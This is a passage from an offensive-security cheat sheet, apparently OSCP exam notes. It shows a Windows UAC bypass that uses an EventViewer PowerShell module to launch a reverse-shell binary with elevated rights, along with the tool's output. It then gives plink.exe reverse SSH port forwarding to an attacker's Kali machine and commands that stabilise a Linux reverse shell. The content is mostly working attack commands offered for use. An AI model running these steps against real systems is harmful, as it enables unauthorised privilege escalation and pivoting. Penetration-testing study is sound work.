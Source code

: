 ![image](https://github.com/kullaisec/OSCP/assets/99985908/87c89a83-8d16-4a31-98bd-6be51924ce51)

**Exploitation:**

Tool Github Link:  https://github.com/CsEnox/EventViewer-UACBypass

On target System: 

```powershell
PS > Import-Module .\Invoke-EventViewer.ps1
PS > Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe
```
replace the malicious Bianry and get the Elavted Access by bypassing the UAC !!

```powershell
PS > Invoke-EventViewer C:\Users\Public\temp\reverse.exe
[+] Running
[1] Crafting Payload                                                                         
[2] Writing Payload                                                                          
[+] EventViewer Folder exists                                                                
[3] Finally, invoking eventvwr 
```
After Exploitation:

![image](https://github.com/kullaisec/OSCP/assets/99985908/536fc075-092c-44d8-b8f9-70217e1db1bd)

### Port Forwarding:[Windows Using `Plink.exe`]

The general format of a port forwarding command using
plink.exe:

```powershell
PS> .\plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```
Note that the <target-IP> is usually local (e.g. 127.0.0.1). plink.exe requires you to SSH to Kali, and then uses the SSH
tunnel to forward ports.

Start ssh on kali..

```powershell
sudo systemctl start ssh
```

## Linux PrivEsc:

Linux Environment set:
```powershell
python -c 'import pty; pty.spawn("/bin/bash")'
```
```powershell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```powershell
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
```
```powershell
export TERM=xterm-256color
```
```powershell
alias ll='clear ; ls -lsaht --color=auto'
```
Ctrl + Z [Background Process]
```powershell
stty raw -echo ; fg ; reset
```
```powershell
stty columns 200 rows 200
```